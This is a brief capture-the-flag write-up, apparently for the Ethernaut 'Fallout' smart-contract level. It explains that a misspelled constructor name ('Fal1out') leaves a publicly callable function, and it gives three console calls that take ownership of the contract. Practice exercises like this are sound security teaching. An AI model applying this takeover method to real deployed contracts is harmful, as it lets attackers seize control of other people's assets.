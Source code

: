 # Fallout

Claim ownership to complete level

Notice that contract use solidity version ^0.6.0 which still not control to use keyword `constructor` 
and developer make mistake on the constructor name from `fallout` to be `Fal1out`.So, it works like normal function.Not constructor on this contract.

```javascript
contract.owner() // check the owner
contract.Fal1out() //call the fatal construct
contract.owner() // check the owner change or not
```